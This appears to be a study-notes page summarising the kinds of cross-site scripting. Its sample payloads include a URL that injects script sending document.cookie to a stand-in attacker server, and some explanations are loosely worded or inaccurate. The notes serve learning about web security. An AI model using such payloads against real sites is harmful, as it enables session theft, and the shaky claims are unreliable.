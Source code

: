 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* Stored XSS - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
 * Blind XSS - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * Reflected XSS - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * h<span>ttps://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * DOM-based XSS - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * Can be embedded in fragments and URL parameters:
         * h<span>ttps://example.com#about_us
         * h<span>ttps://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script>
  * Self-XSS - a social engineering attack that tricks users into executing a XSS intructed by the attacker.
